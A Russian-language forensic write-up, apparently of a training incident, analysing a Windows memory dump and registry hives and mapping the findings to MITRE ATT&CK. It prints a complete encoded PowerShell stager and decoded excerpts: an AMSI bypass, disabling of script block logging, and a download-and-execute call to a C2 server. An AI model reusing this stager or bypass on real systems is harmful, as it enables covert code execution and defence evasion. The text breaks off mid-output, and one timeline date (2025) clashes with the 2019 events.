CommandHistory: 0x396a58 Application: cmd.exe Flags: Allocated
CommandCount: 0 LastAdded: -1 LastDisplayed: -1
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x5c
----
Screen 0x386470 X:80 Y:300
Dump:

C:\Windows\system32>powershell -noP -sta -w 1 -enc  SQBGACgAJABQAFMAVgBlAFIAUwBp
AE8ATgBUAGEAQgBsAEUALgBQAFMAVgBlAHIAUwBJAE8ATgAuAE0AYQBqAE8AcgAgAC0AZwBFACAAMwAp
AHsAJABHAFAARgA9AFsAcgBlAGYAXQAuAEEAUwBzAEUAbQBiAGwAeQAuAEcARQB0AFQAWQBQAGUAKAAn
AFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBV
AHQAaQBsAHMAJwApAC4AIgBHAEUAdABGAGkAZQBgAGwAZAAiACgAJwBjAGEAYwBoAGUAZABHAHIAbwB1
AHAAUABvAGwAaQBjAHkAUwBlAHQAdABpAG4AZwBzACcALAAnAE4AJwArACcAbwBuAFAAdQBiAGwAaQBj
ACwAUwB0AGEAdABpAGMAJwApADsASQBmACgAJABHAFAARgApAHsAJABHAFAAQwA9ACQARwBQAEYALgBH
AGUAVABWAEEAbAB1AGUAKAAkAE4AVQBsAGwAKQA7AEkARgAoACQARwBQAEMAWwAnAFMAYwByAGkAcAB0
AEIAJwArACcAbABvAGMAawBMAG8AZwBnAGkAbgBnACcAXQApAHsAJABHAFAAQwBbACcAUwBjAHIAaQBw
AHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBp
AHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnAF0APQAwADsAJABHAFAAQwBbACcAUwBj
AHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBT
AGMAcgBpAHAAdABCAGwAbwBjAGsASQBuAHYAbwBjAGEAdABpAG8AbgBMAG8AZwBnAGkAbgBnACcAXQA9
ADAAfQAkAFYAQQBsAD0AWwBDAG8AbABMAGUAYwB0AEkATwBuAHMALgBHAGUAbgBFAHIASQBDAC4ARABp
AGMAdABJAG8ATgBBAHIAeQBbAHMAVABSAEkATgBnACwAUwBZAFMAdABlAG0ALgBPAEIAagBFAEMAVABd
AF0AOgA6AG4ARQBXACgAKQA7ACQAVgBBAGwALgBBAEQAZAAoACcARQBuAGEAYgBsAGUAUwBjAHIAaQBw
AHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwAsADAAKQA7ACQAdgBBAGwALgBBAGQARAAo
ACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgBsAG8AYwBrAEkAbgB2AG8AYwBhAHQAaQBvAG4ATABv
AGcAZwBpAG4AZwAnACwAMAApADsAJABHAFAAQwBbACcASABLAEUAWQBfAEwATwBDAEEATABfAE0AQQBD
AEgASQBOAEUAXABTAG8AZgB0AHcAYQByAGUAXABQAG8AbABpAGMAaQBlAHMAXABNAGkAYwByAG8AcwBv
AGYAdABcAFcAaQBuAGQAbwB3AHMAXABQAG8AdwBlAHIAUwBoAGUAbABsAFwAUwBjAHIAaQBwAHQAQgAn
ACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAD0AJAB2AEEATAB9AEUATABTAGUAewBbAFMAYwBy
AEkAcAB0AEIAbABPAEMASwBdAC4AIgBHAEUAVABGAGkAZQBgAGwARAAiACgAJwBzAGkAZwBuAGEAdAB1
AHIAZQBzACcALAAnAE4AJwArACcAbwBuAFAAdQBiAGwAaQBjACwAUwB0AGEAdABpAGMAJwApAC4AUwBF
AHQAVgBhAGwAdQBFACgAJABuAFUATABsACwAKABOAGUAdwAtAE8AYgBqAGUAYwBUACAAQwBvAGwATABl
AEMAdABJAE8ATgBzAC4ARwBFAE4ARQBSAGkAQwAuAEgAYQBzAEgAUwBFAFQAWwBzAFQAUgBJAG4ARwBd
ACkAKQB9AFsAUgBlAGYAXQAuAEEAUwBTAGUATQBiAEwAWQAuAEcAZQBUAFQAeQBwAEUAKAAnAFMAeQBz
AHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBp
AFUAdABpAGwAcwAnACkAfAA/AHsAJABfAH0AfAAlAHsAJABfAC4ARwBlAHQARgBJAGUAbABEACgAJwBh
AG0AcwBpAEkAbgBpAHQARgBhAGkAbABlAGQAJwAsACcATgBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0
AGkAYwAnACkALgBTAGUAVABWAEEAbAB1AEUAKAAkAG4AVQBsAEwALAAkAFQAUgB1AGUAKQB9ADsAfQA7
AFsAUwBZAFMAVABFAG0ALgBOAGUAdAAuAFMARQBSAFYAaQBjAGUAUABvAGkAbgB0AE0AQQBOAEEAZwBF
AHIAXQA6ADoARQBYAFAAZQBDAFQAMQAwADAAQwBPAG4AVABpAE4AVQBlAD0AMAA7ACQAVwBjAD0ATgBl
AHcALQBPAEIAagBlAEMAVAAgAFMAWQBTAHQAZQBtAC4ATgBFAHQALgBXAEUAQgBDAEwASQBlAE4AdAA7
ACQAdQA9ACcATQBvAHoAaQBsAGwAYQAvADUALgAwACAAKABXAGkAbgBkAG8AdwBzACAATgBUACAANgAu
ADEAOwAgAFcATwBXADYANAA7ACAAVAByAGkAZABlAG4AdAAvADcALgAwADsAIAByAHYAOgAxADEALgAw
ACkAIABsAGkAawBlACAARwBlAGMAawBvACcAOwAkAHcAYwAuAEgARQBBAEQARQByAFMALgBBAEQARAAo
ACcAVQBzAGUAcgAtAEEAZwBlAG4AdAAnACwAJAB1ACkAOwAkAFcAQwAuAFAAcgBPAFgAWQA9AFsAUwBZ
AHMAdABFAG0ALgBOAEUAdAAuAFcARQBCAFIAZQBRAFUAZQBTAHQAXQA6ADoARABlAEYAYQB1AGwAdABX
AGUAQgBQAFIAbwB4AFkAOwAkAFcAQwAuAFAAUgBPAHgAeQAuAEMAcgBFAEQAZQBuAHQASQBhAEwAUwAg
AD0AIABbAFMAWQBTAFQAZQBtAC4ATgBFAFQALgBDAHIAZQBEAGUAbgB0AGkAQQBsAEMAYQBjAEgARQBd
ADoAOgBEAEUAZgBhAHUAbABUAE4AZQB0AHcATwBSAGsAQwBSAGUARABFAE4AdABpAGEATABzADsAJABT
AGMAcgBpAHAAdAA6AFAAcgBvAHgAeQAgAD0AIAAkAHcAYwAuAFAAcgBvAHgAeQA7ACQASwA9AFsAUwBZ
AHMAVABFAE0ALgBUAGUAWABUAC4ARQBuAGMAbwBEAEkATgBHAF0AOgA6AEEAUwBDAEkASQAuAEcARQB0
AEIAeQBUAEUAUwAoACcAXQBoAHEAMQBqACkAYwAjADwAWQA1AEYAUgA4AFgALwBCAHYAYQB3AHsAJgA2
AC4ARQAhAD4ASwB+AHoATQAlACcAKQA7ACQAUgA9AHsAJABEACwAJABLAD0AJABBAHIARwBzADsAJABT
AD0AMAAuAC4AMgA1ADUAOwAwAC4ALgAyADUANQB8ACUAewAkAEoAPQAoACQASgArACQAUwBbACQAXwBd
ACsAJABLAFsAJABfACUAJABLAC4AQwBvAFUAbgB0AF0AKQAlADIANQA2ADsAJABTAFsAJABfAF0ALAAk
AFMAWwAkAEoAXQA9ACQAUwBbACQASgBdACwAJABTAFsAJABfAF0AfQA7ACQARAB8ACUAewAkAEkAPQAo
ACQASQArADEAKQAlADIANQA2ADsAJABIAD0AKAAkAEgAKwAkAFMAWwAkAEkAXQApACUAMgA1ADYAOwAk
AFMAWwAkAEkAXQAsACQAUwBbACQASABdAD0AJABTAFsAJABIAF0ALAAkAFMAWwAkAEkAXQA7ACQAXwAt
AGIAWABPAFIAJABTAFsAKAAkAFMAWwAkAEkAXQArACQAUwBbACQASABdACkAJQAyADUANgBdAH0AfQA7
ACQAcwBlAHIAPQAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEALgA3ADEAOgA4ADAAJwA7
ACQAdAA9ACcALwBuAGUAdwBzAC4AcABoAHAAJwA7ACQAVwBjAC4ASABlAGEARABFAFIAUwAuAEEAZABE
ACgAIgBDAG8AbwBrAGkAZQAiACwAIgBzAGUAcwBzAGkAbwBuAD0AagArAGYAdgA3AFMAMQBUAEEAcwBh
AG4ASABsAHIAMwBzAGIARAB1AHIAbgBzAHkAZAByADQAPQAiACkAOwAkAEQAYQBUAEEAPQAkAFcAQwAu
AEQATwB3AG4ATABvAGEARABEAEEAVABhACgAJABTAGUAcgArACQAdAApADsAJABpAFYAPQAkAGQAQQB0
AGEAWwAwAC4ALgAzAF0AOwAkAEQAQQBUAEEAPQAkAGQAQQB0AGEAWwA0AC4ALgAkAGQAQQB0AGEALgBs
AGUATgBHAHQAaABdADsALQBqAE8ASQBuAFsAQwBoAEEAUgBbAF0AXQAoACYAIAAkAFIAIAAkAEQAYQB0
AEEAIAAoACQASQBWACsAJABLACkAKQB8AEkARQBYAA==
```

Крайне важная находка! Вывод данной команды показал наличие закодированного Base64 PowerShell payload. После декодирования кода в CyberChef и проанализируем его:





Этот блок позволяет обойти защиту Powershell (Отключает Script Block Logging и AMSI):

```powershell
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name "EnableScriptBlockLogging" -Value 0
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```


А тут похоже настраивается агент командного (C2) сервера и маскируется под браузер:

```powershell
$wc = New-Object System.Net.WebClient
$u = 'Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko'
$wc.Headers.Add('User-Agent',$u)
```

А вот и информация о самом C2-сервере и эндпоинте:

```powershell
$ser='http://192.168.1.71:80'
$t='/news.php'
```
Получается C2-сервер находится в локальной сети, а не по адресу `40.115.119.185`, который вызывал подозрения ранее.


RC4 шифрование с ключем `]hq1j)c#<Y5FR8X/Bvaw{&6.E!>K~zM%`:

```powershell
ё$K=[System.Text.Encoding]::ASCII.GetBytes(']hq1j)c#<Y5FR8X/Bvaw{&6.E!>K~zM%')
```

Сессия и выполнение:
```powershell
$wc.Headers.Add("Cookie","session=j+fv7S1TAsanHlr3sbDurnsyrdr4=")
$Data=$wc.DownloadData($ser+$t)
$iV=$data[0..3]
$Data=$data[4..$data.length]
-join[Char[]](& $R $Data ($IV+$K))|IEX
```


Дополнительно поищем в памяти следы сетевой активности с C2-сервером с помощью команды `.\volatility_2.6_win64_standalone.exe -f Incident.mem --profile Win7SP1x86 yarascan -p 3672 -Y "192.168.1.71"`: 

```
Volatility Foundation Volatility Framework 2.6
Rule: r1
Owner: Process powershell.exe Pid 3672
0x0266397f  31 39 32 2e 31 36 38 2e 31 2e 37 31 0d 0a 43 6f   192.168.1.71..Co
0x0266398f  6e 74 65 6e 74 2d 4c 65 6e 67 74 68 3a 20 31 39   ntent-Length:.19
0x0266399f  30 0d 0a 43 6f 6e 6e 65 63 74 69 6f 6e 3a 20 4b   0..Connection:.K
0x026639af  65 65 70 2d 41 6c 69 76 65 0d 0a 0d 0a 00 00 00   eep-Alive.......
0x026639bf  00 58 cb 1d 66 38 1b 66 02 00 00 00 00 00 00 00   .X..f8.f........
0x026639cf  00 10 3f 66 02 00 00 00 00 00 00 00 00 01 00 00   ..?f............
0x026639df  00 01 00 00 00 00 00 00 00 34 43 1e 66 aa 95 00   .........4C.f...
0x026639ef  00 00 00 00 00 e8 10 55 02 0c 3a 66 02 00 00 00   .......U..:f....
0x026639ff  00 c8 00 00 00 00 00 00 00 00 00 00 00 98 ca 1d   ................
0x02663a0f  66 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   f...............
0x02663a1f  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x02663a2f  00 00 00 00 00 00 00 00 00 00 00 00 00 50 3a 66   .............P:f
0x02663a3f  02 a4 3b 66 02 06 00 00 00 04 00 00 00 00 00 00   ..;f............
0x02663a4f  00 4c 62 a3 66 12 00 00 00 7c 2a a6 66 00 00 00   .Lb.f....|*.f...
0x02663a5f  00 ec 3a 66 02 08 3b 66 02 a8 3a 66 02 1c 3e 66   ..:f..;f..:f..>f
0x02663a6f  02 d4 3d 66 02 00 00 00 00 00 00 00 00 00 00 00   ..=f............
Rule: r1
Owner: Process powershell.exe Pid 3672
0x06e934aa  31 39 32 2e 31 36 38 2e 31 2e 37 31 0d 0a 43 6f   192.168.1.71..Co
0x06e934ba  6e 6e 65 63 74 69 6f 6e 3a 20 4b 65 65 70 2d 41   nnection:.Keep-A
0x06e934ca  6c 69 76 65 0d 0a 0d 0a 00 00 00 00 00 00 34 43   live..........4C
0x06e934da  1e 66 e0 04 00 00 00 00 00 00 e8 10 55 02 fc 34   .f..........U..4
0x06e934ea  e9 06 00 00 00 00 c8 00 00 00 00 00 00 00 00 00   ................
0x06e934fa  00 00 98 ca 1d 66 00 00 00 00 00 00 00 00 00 00   .....f..........
0x06e9350a  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x06e9351a  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x06e9352a  00 00 40 35 e9 06 94 36 e9 06 06 00 00 00 04 00   ..@5...6........
0x06e9353a  00 00 00 00 00 00 4c 62 a3 66 12 00 00 00 7c 2a   ......Lb.f....|*
0x06e9354a  a6 66 00 00 00 00 dc 35 e9 06 f8 35 e9 06 98 35   .f.....5...5...5
0x06e9355a  e9 06 0c 39 e9 06 c4 38 e9 06 00 00 00 00 00 00   ...9...8........
0x06e9356a  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x06e9357a  00 00 00 00 00 00 d8 38 e9 06 00 00 00 00 00 00   .......8........
0x06e9358a  00 00 00 00 00 00 00 00 00 00 00 00 00 00 7c 2a   ..............|*
0x06e9359a  a6 66 19 00 00 00 18 00 00 00 74 00 65 00 78 00   .f........t.e.x.
Rule: r1
Owner: Process powershell.exe Pid 3672
0x0716c714  31 39 32 2e 31 36 38 2e 31 2e 37 31 00 00 00 00   192.168.1.71....
0x0716c724  7c 2a a6 66 0d 00 00 00 0c 00 00 00 31 00 39 00   |*.f........1.9.
0x0716c734  32 00 2e 00 31 00 36 00 38 00 2e 00 31 00 2e 00   2...1.6.8...1...
0x0716c744  37 00 31 00 00 00 00 00 00 00 00 00 ac 36 a6 66   7.1..........6.f
0x0716c754  0c 00 00 00 31 00 39 00 32 00 2e 00 31 00 36 00   ....1.9.2...1.6.
0x0716c764  38 00 2e 00 31 00 2e 00 37 00 31 00 00 00 00 00   8...1...7.1.....
0x0716c774  ec 54 a6 66 0c 00 00 00 31 39 32 2e 31 36 38 2e   .T.f....192.168.
0x0716c784  31 2e 37 31 00 00 00 00 7c 2a a6 66 0d 00 00 00   1.71....|*.f....
0x0716c794  0c 00 00 00 31 00 39 00 32 00 2e 00 31 00 36 00   ....1.9.2...1.6.
0x0716c7a4  38 00 2e 00 e4 00 00 00 1e 58 d2 ff 34 fb 00 00   8........X..4...
0x0716c7b4  00 00 00 00 7c 2a a6 66 0d 00 00 00 0c 00 00 00   ....|*.f........
0x0716c7c4  31 00 39 00 32 00 2e 00 31 00 36 00 38 00 2e 00   1.9.2...1.6.8...
0x0716c7d4  31 00 2e 00 37 00 31 00 00 00 00 00 00 00 00 00   1...7.1.........
0x0716c7e4  ac 4a a6 66 18 20 e9 06 00 00 00 00 01 00 00 00   .J.f............
0x0716c7f4  01 00 00 00 00 00 00 00 4c 62 a3 66 01 00 00 00   ........Lb.f....
0x0716c804  98 26 a6 66 d4 1f e9 06 00 00 00 00 b0 e8 1e 66   .&.f...........f
Rule: r1
Owner: Process powershell.exe Pid 3672
0x0716c77c  31 39 32 2e 31 36 38 2e 31 2e 37 31 00 00 00 00   192.168.1.71....
0x0716c78c  7c 2a a6 66 0d 00 00 00 0c 00 00 00 31 00 39 00   |*.f........1.9.
0x0716c79c  32 00 2e 00 31 00 36 00 38 00 2e 00 e4 00 00 00   2...1.6.8.......
0x0716c7ac  1e 58 d2 ff 34 fb 00 00 00 00 00 00 7c 2a a6 66   .X..4.......|*.f
0x0716c7bc  0d 00 00 00 0c 00 00 00 31 00 39 00 32 00 2e 00   ........1.9.2...
0x0716c7cc  31 00 36 00 38 00 2e 00 31 00 2e 00 37 00 31 00   1.6.8...1...7.1.
0x0716c7dc  00 00 00 00 00 00 00 00 ac 4a a6 66 18 20 e9 06   .........J.f....
0x0716c7ec  00 00 00 00 01 00 00 00 01 00 00 00 00 00 00 00   ................
0x0716c7fc  4c 62 a3 66 01 00 00 00 98 26 a6 66 d4 1f e9 06   Lb.f.....&.f....
0x0716c80c  00 00 00 00 b0 e8 1e 66 b4 e3 51 02 00 20 e9 06   .......f..Q.....
0x0716c81c  00 00 00 00 b8 2b a6 66 34 c8 16 07 b0 eb 41 00   .....+.f4.....A.
0x0716c82c  ff ff ff 7f 00 00 00 00 7c 2a a6 66 11 00 00 00   ........|*.f....
0x0716c83c  02 00 00 00 53 00 3e 00 00 00 00 00 00 00 00 00   ....S.>.........
0x0716c84c  00 00 00 00 00 00 00 00 00 00 00 00 48 00 00 00   ............H...
0x0716c85c  d6 57 d2 ff 00 00 00 00 00 00 00 00 c4 3b 1e 66   .W...........;.f
0x0716c86c  00 00 00 00 00 00 00 00 00 00 00 00 e8 ab 54 02   ..............T.
Rule: r1
Owner: Process powershell.exe Pid 3672
0x0716e277  31 39 32 2e 31 36 38 2e 31 2e 37 31 0d 0a 43 6f   192.168.1.71..Co
0x0716e287  6e 6e 65 63 74 69 6f 6e 3a 20 4b 65 65 70 2d 41   nnection:.Keep-A
0x0716e297  6c 69 76 65 0d 0a 0d 0a 00 00 00 00 00 34 43 1e   live.........4C.
0x0716e2a7  66 e0 04 00 00 00 00 00 00 e8 10 55 02 ac 35 e9   f..........U..5.
0x0716e2b7  06 00 00 00 00 c8 00 00 00 00 00 00 00 00 00 00   ................
0x0716e2c7  00 98 ca 1d 66 00 00 00 00 00 00 00 00 00 00 00   ....f...........
0x0716e2d7  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x0716e2e7  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x0716e2f7  00 f0 35 e9 06 44 37 e9 06 06 00 00 00 04 00 00   ..5..D7.........
0x0716e307  00 00 00 00 00 4c 62 a3 66 12 00 00 00 7c 2a a6   .....Lb.f....|*.
0x0716e317  66 00 00 00 00 8c 36 e9 06 a8 36 e9 06 48 36 e9   f.....6...6..H6.
0x0716e327  06 bc 39 e9 06 74 39 e9 06 00 00 00 00 00 00 00   ..9..t9.........
0x0716e337  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x0716e347  00 00 00 00 00 88 39 e9 06 00 00 00 00 00 00 00   ......9.........
0x0716e357  00 00 00 00 00 00 00 00 00 00 00 00 00 7c 2a a6   .............|*.
0x0716e367  66 19 00 00 00 18 00 00 00 74 00 65 00 78 00 74   f........t.e.x.t
```

Мы получили подтверждение, что зараженный компьютер общается с коммандным сервером `192.168.1.71`.


На основе проведенного анализа можно сформировать последовательность действий атакующих:

1. Updater.bat запускает cmd.exe. T1059.003 - Command and Scripting Interpreter: Windows Command Shell, T1204.002 - User Execution: Malicious File. TA0002 - Execution.
2. cmd.exe запускает PowerShell с encoded командой. T1059.001 - Command and Scripting Interpreter: PowerShell, T1027 - Obfuscated Files or Information, T1140 - Deobfuscate/Decode Files, T1562.001 - Impair Defenses: Disable Windows Event Logging. TA0002 - Execution, TA0005 - Defense Evasion
3. PowerShell подключается к C2-серверу 192.168.1.71. T1071.001 - Application Layer Protocol: Web Protocols, T1573.001 - Encrypted Channel: Symmetric Cryptography. TA0011 - Command and Control
4. Загружает и выполняет дополнительный payload. T1105 - Ingress Tool Transfer, T1055 - Process Injection. TA0011 - Command and Control, TA0005 - Defense Evasion


## Анализ побитовой копии диска:

### Выгрузка и анализ основных веток реестра:

Продолжим анализ инцидента изучением основных веток реестра, но для начала их нужно будет достать из побитовой копии диска. Для выполнения этой операции я использую autopsy версии 4.22.1, необходимо выгрузить файлы находящиеся в директории `C:/Winows/System32/config` - SAM, SECURITY, SYSTEM, SOFTWARE, а так же NTUSER.DAT из папки пользователя Wilfred. Ниже представлены скриншоты autopsy с необходимыми нам файлами:





Далее с помощью regripper версии 4.0 сгенерируем отчеты и уже в них надо будет искать аномалии. Интерфейс утилиты предельно прост - указывается файл с фрагментом реестра (hive) и файл в который выгрузится отчет:




### Анализ SAM:

Обнаружена любопытная кореляция по времени (2019-03-10 06:45:48) между неудачной попыткой входа под пользователями sshd_server, Wilfred и созданием нового пользователя Support:  

```
Username        : sshd_server [1002]
Full Name       : sshd server account
User Comment    : 
Account Type    : Default Admin User
Account Created : 2018-01-03 05:01:33Z
Name            :  
Last Login Date : 2019-03-10 11:32:20Z
Pwd Reset Date  : 2018-01-03 05:01:33Z
Pwd Fail Date   : 2019-03-10 06:45:48Z
Login Count     : 5
Embedded RID    : 1002
  --> Password does not expire
  --> Normal user account


Username        : Wilfred [1003]
Full Name       : Wilfred
User Comment    : 
Account Type    : Default Admin User
Account Created : 2019-03-09 14:17:41Z
Name            :  
Last Login Date : 2019-03-10 12:30:35Z
Pwd Reset Date  : 2019-03-09 14:17:57Z
Pwd Fail Date   : 2019-03-10 06:45:48Z
Login Count     : 17
Embedded RID    : 1003
  --> Password does not expire
  --> Normal user account


Username        : Support [1004]
Full Name       : Support
User Comment    : 
Account Type    : Default Admin User
Account Created : 2019-03-10 06:45:48Z
Name            :  
Last Login Date : 2019-03-10 12:23:43Z
Pwd Reset Date  : 2019-03-10 06:46:03Z
Pwd Fail Date   : Never
Login Count     : 2
Embedded RID    : 1004
  --> Password does not expire
  --> Normal user account
```

Все 3 учетных записи имеют администраторские права.

```
Group Name    : Administrators [4]
LastWrite     : 2019-03-10 06:45:48Z
Group Comment : Administrators have complete and unrestricted access to the computer/domain
Users :
  S-1-5-21-3583694148-1414552638-2922671848-1004
  S-1-5-21-3583694148-1414552638-2922671848-1002
  S-1-5-21-3583694148-1414552638-2922671848-500
  S-1-5-21-3583694148-1414552638-2922671848-1003
```
Создание доп. учетной записи support с последующим включением в группу администраторов - выглядит крайне подозрительно. Необходимо дополнительно проанализировать реестр данного пользователя.


Итого, из отчета SAM можно составить следующий таймлан с техниками MITRE ATT&CK 10.03.2025:

1. 06:45:48Z - неудачная попытка входа в учетные записи sshd_server и Wilfred. T1110 (Brute Force).
2. 06:45:48Z - создание учетной записи Support с правами администратора. T1136.001 (Create Account: Local Account).
3. 06:45:48Z - изменение членства в группе Administrators, добавлена учетная запись Support. T1078.001 (Valid Accounts: Local Accounts).
4. 06:45:48Z - изменение членства в группе Users, добавлена учетная запись Support. T1078.001 (Valid Accounts: Local Accounts).
5. 11:32:20Z - успешный вход в учетную запись sshd_server. T1078.001 (Valid Accounts: Local Accounts).
6. 12:23:43Z - успешный вход в учетную запись Support. T1078.001 (Valid Accounts: Local Accounts).
7. 12:30:35Z - успешный вход в учетную запись Wilfred. T1078.001 (Valid Accounts: Local Accounts).


### Анализ SYSTEM:

Не выявил каких-либо аномалий.


### Анализ SECURITY:

Анализ SECURITY выявил несколько проблем с найтройками аудита, а именно:

File System = N - Отсутствует аудит доступа к файловой системе, т.е. невозможно отследить несанкционированный доступ к файлам.

Process Creation = N - Не ведется аудит создания процессов, т.е. нельзя обнаружить запуск вредоносных программ.

Registry = N - Не аудируется работа с реестром, т.е. скрытые изменения в реестре не отслеживаются.


Эти настойки можно отнести к технике T1562.001 - Impair Defenses: Disable Windows Event Logging и тактике TA0005 - Defense Evasion.


### Анализ SOFTWARE:

Анализ SOFTWARE показал активацию опасной натройки AutoAdminLogon, которая разрешает автоматический вход в систему под учётной записью администратора, а так же сохраняет в реестре пароль учетной записи в открытом виде.  

```
Launching autoadminlogon v.20220829
(software) Get autoadminlogon settings
MITRE: T1078.003 (persistence)

Microsoft\Windows NT\CurrentVersion\WinLogon
LastWrite time: 2019-03-10 11:32:16Z
 
AutoAdminLogon enabled.

Analysis Tip: If the "AutoAdminLogon" value exists and is set to "1", the system will automatically log into
the admin account, and the password can be found in plain text in the "DefaultPassword" value.
```

Данную настройку можно отнести к техникам T1078.003 - Valid Accounts: Local Accounts, T1552.001 - Unsecured Credentials и тактике TA0003 - Persistence.


### Анализ NTUSER.DAT пользователя Wilfred:

Проанализируем полученный отчет regripper по NTUSER.DAT и выделим подозрительные моменты. 

В глаза бросаются блоки environment и profiler, которые указывают на использование `Updater.bat` для сохранения постоянного доступа. Данный исполняемый файл уже попадался при исследовании памяти, в реестре же мы находим подтверждение того, что он запускается при каждом входе в систему пользователя Wilfred:

```
environment v.20201113
(System, NTUSER.DAT) Get environment vars from NTUSER.DAT & System hives
MITRE: T1037.007 (persistence)

Environment
LastWrite Time: 2019-03-09 16:57:35Z

TEMP                      %USERPROFILE%\AppData\Local\Temp                  
TMP                       %USERPROFILE%\AppData\Local\Temp                  
UserInitMprLogonScript    C:\Users\Wilfred\AppData\Roaming\Identities\Updater.bat
**ALERT: UserInitMprLogonScript value found: C:\Users\Wilfred\AppData\Roaming\Identities\Updater.bat

Analysis Tip: Threat actors, such as Kimsuky (see Cybereason reference below) have been observed using the
"UserInitMprLogonScript" value for persistence, by including a script in the value data.
```

```
profiler v.20200922
(NTUSER.DAT, System) Environment profiler information
MITRE: T1574.012 (persistence)

Environment
LastWrite Time 2019-03-09 16:57:35Z

TEMP -> %USERPROFILE%\AppData\Local\Temp
TMP -> %USERPROFILE%\AppData\Local\Temp
UserInitMprLogonScript -> C:\Users\Wilfred\AppData\Roaming\Identities\Updater.bat
```

В реестре были изменены настройки автозапуска, а конкретно включен автозапуск для съемных носителей и сетевых дисков: 

```
autorun v.20221109
(NTUSER.DAT, Software) Checks autorun settings
MITRE: T1204 (execution)

Software\Microsoft\Windows\CurrentVersion\Policies\Explorer
LastWrite Time 2019-03-09 14:18:24Z

NoDriveTypeAutoRun   0x0091
NoDriveAutoRun value not found.

Software\Microsoft\Windows\CurrentVersion\Explorer\AutoplayHandlers
LastWrite Time 2019-03-09 14:18:14Z

DisableAutoplay      0x0000

1 - Autoplay disabled
0 - Autoplay enabled
```


В отчете так же зафиксирован факт установки и запуска утилиты SysInternals BGInfo - инструмента для сбора информации о системе:

```
sysinternals v.20220824
MITRE: T1204 (program execution)

SysInternals
Software\SysInternals
LastWrite Time 2019-03-09 14:18:25Z

BGInfo [2019-03-09 14:18:25Z]
  EulaAccepted: 1
```


Сектор recentdocs показывает работу с утилитами iepv.zip (Internet Explorer Password Viewer), netscan_portable.zip (сетевой сканер) и passwords.txt 

```
recentdocs v.20200924
(NTUSER.DAT) Gets contents of user's RecentDocs key

RecentDocs
**All values printed in MRUList\MRUListEx order.
Software\Microsoft\Windows\CurrentVersion\Explorer\RecentDocs
LastWrite Time: 2019-03-10 06:41:06Z
  3 = Temp
  6 = iepv.zip
  5 = netscan_portable
  4 = netscan_portable.zip
  2 = Network and Internet
  1 = System and Security
  0 = passwords.txt

Software\Microsoft\Windows\CurrentVersion\Explorer\RecentDocs\.txt
LastWrite Time 2019-03-09 15:35:28Z
MRUListEx = 0
  0 = passwords.txt

Software\Microsoft\Windows\CurrentVersion\Explorer\RecentDocs\.zip
LastWrite Time 2019-03-10 06:41:06Z
MRUListEx = 1,0
  1 = iepv.zip
  0 = netscan_portable.zip

Software\Microsoft\Windows\CurrentVersion\Explorer\RecentDocs\Folder
LastWrite Time 2019-03-10 06:41:06Z
MRUListEx = 2,3,1,0
  2 = Temp
  3 = netscan_portable
  1 = Network and Internet
  0 = System and Security
```

В разделах typedurls и typedurlstime подозрение вызывают обращения к файлообменнику `www.sendspace.com` и файлам `0beywl` и `obeywl` 9 марта в 16:50. Возможно туда передавалась информация с зараженного ПК. 

```
typedurls v.20201012
(NTUSER.DAT) Returns contents of user's TypedURLs key.

TypedURLs
Software\Microsoft\Internet Explorer\TypedURLs
LastWrite Time 2019-03-10 06:49:46Z
  url1 -> http://youtube.com/
  url2 -> https://www.sendspace.com/
  url3 -> https://www.sendspace.com/file/0beywl
  url4 -> http://sendspace.com/file/obeywl
  url5 -> http://go.microsoft.com/fwlink/p/?LinkId=255141
----------------------------------------
typedurlstime v.20201012
(NTUSER.DAT) Returns contents of user's TypedURLsTime key.

TypedURLsTime
Software\Microsoft\Internet Explorer\TypedURLsTime
LastWrite Time 2019-03-10 06:49:46Z
  url1 -> 2019-03-10 06:49:46Z (http://youtube.com/)
  url2 -> 2019-03-09 16:52:26Z (https://www.sendspace.com/)
  url3 -> 2019-03-09 16:50:40Z (https://www.sendspace.com/file/0beywl)
  url4 -> 2019-03-09 16:50:24Z (http://sendspace.com/file/obeywl)
  url5 -> 0
```


В блоке userassist вопросы вызывают сведения о запуске iepv.exe, netscan.exe, ramcapture.exe и FTK Imager.exe - инструменты для извлечения данных.   

```
UserAssist
Software\Microsoft\Windows\CurrentVersion\Explorer\UserAssist
LastWrite Time 2019-03-09 14:18:24Z

Settings\NoLog value not found.

Analysis Tip: The "Settings\NoLog" value set to "1" disables the creation of new entries on XP.

Ref: https://blog.didierstevens.com/programs/userassist/

{CEBFF5CD-ACE2-4F4F-9178-9926F41749EA}
2019-03-10 13:05:52Z
  \\Vboxsvr\d_drive\Imager_Lite_3.1.1\FTK Imager.exe (1)
2019-03-10 13:03:06Z
  \\Vboxsvr\d_drive\RamCapturer\x86\RamCapture.exe (2)
2019-03-10 12:58:26Z
